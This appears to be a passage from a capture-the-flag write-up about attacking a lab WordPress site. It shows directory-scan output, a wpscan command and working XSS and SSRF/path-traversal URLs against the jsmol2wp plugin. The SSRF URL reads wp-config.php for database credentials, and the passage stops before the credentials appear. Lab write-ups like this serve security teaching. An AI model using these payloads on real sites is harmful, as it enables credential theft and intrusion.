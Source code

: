     /.hta                 (Status: 403) [Size: 277]
    /.htpasswd            (Status: 403) [Size: 277]
    /index.php            (Status: 301) [Size: 0] [--> http://www.smol.thm/]
    /server-status        (Status: 403) [Size: 277]
    /wp-admin             (Status: 301) [Size: 315] [--> http://www.smol.thm/wp-admin/]
    /wp-content           (Status: 301) [Size: 317] [--> http://www.smol.thm/wp-content/]
    /wp-includes          (Status: 301) [Size: 318] [--> http://www.smol.thm/wp-includes/]
    /xmlrpc.php           (Status: 405) [Size: 42]
    Progress: 4614 / 4615 (99.98%)
    ===============================================================
    Finished
    ===============================================================

The Gobuster scan indicated the presence of several WordPress-related directories (/wp-admin, /wp-content, /wp-includes), confirming that the website was running WordPress.
WPScan Vulnerability Scan

To specifically identify vulnerabilities within the WordPress installation, wpscan was utilized with a provided API token.

wpscan --url http://www.smol.thm --api-token REDACTED

WPScan was instrumental in identifying potential vulnerabilities, leading to the discovery of the exploitable jsmol2wp plugin.

# 2-wordpress-vulnerabilities-and-initial-access

Further investigation focused on the WordPress installation, leveraging insights from wpscan to identify and exploit vulnerabilities.
jsmol2wp Plugin Vulnerabilities

Guided by wpscan's output and subsequent manual inspection, the jsmol2wp plugin was confirmed to be installed and vulnerable to both Cross-Site Scripting (XSS) and Server-Side Request Forgery (SSRF).

# XSS Vulnerability (Example Payload):

http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3Cscript%3Ealert(/xss/)%3C/script%3E&mimetype=text/html;%20charset=utf-8

# SSRF Vulnerability (Target Payload):

http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

Exploiting SSRF to Obtain Database Credentials

The SSRF vulnerability was leveraged to read the contents of the wp-config.php file, which typically contains the WordPress database credentials.

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

This request successfully returned the wp-config.php content, revealing the following database user and password:
